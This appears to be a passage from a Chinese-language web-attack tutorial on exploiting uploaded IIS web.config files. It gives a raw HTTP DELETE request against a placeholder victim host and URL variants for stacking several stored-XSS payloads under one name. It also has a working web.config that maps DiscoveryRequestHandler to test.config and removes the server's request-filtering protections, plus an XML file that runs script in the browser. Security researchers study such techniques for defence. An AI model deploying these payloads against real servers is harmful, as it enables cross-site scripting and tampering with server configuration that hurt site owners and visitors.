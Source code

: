 提取内容：

```plain
http://victim.com/testwebconfig/userfiles/web.config
```

删除内容：

```plain
DELETE /testwebconfig/userfiles/web.config HTTP/1.1
Host: victim.com
```

为了使用相同的名称创建多个 XSSd payload，可以将其他参数添加到 URL。例如：

```plain
Web.config/payload1
Or
Web.config\payload1
And
Web.config?payload2
```

##### 2.3.2 使用 Discovery Request Handler 处理程序

`System.Web.Services.Discovery`命名空间中的`DiscoveryRequestHandler`类可用于提供 XML 文件（实际使用中的.disco 文件）。这可能会被利用来从 XML 响应中执行 JavaScript 代码。

如果可以上传`web.config`文件，那么我们也可以上传包含带`JavaScript`代码的 XML 的`test.config`文件。以下`web.config`显示了一个示例，`test.config`文件将用作 XML 文件：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration> 
    <system.webServer>
        <handlers>
            <add name="web_config" path="test.config" verb="*" type="System.Web.Services.Discovery.DiscoveryRequestHandler,System.Web.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" resourceType="File" requireAccess="Script" />
        </handlers>
        <security>
            <requestFiltering>
                <hiddenSegments>
                    <remove segment="web.config" />
                </hiddenSegments>
                <fileExtensions>
                    <remove fileExtension=".config" />
                </fileExtensions>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```

`test.config`文件如下；

```plain
<?xml version="1.0" ?>
<script xmlns="http://www.w3.org/1999/xhtml">alert(1)</script>
```
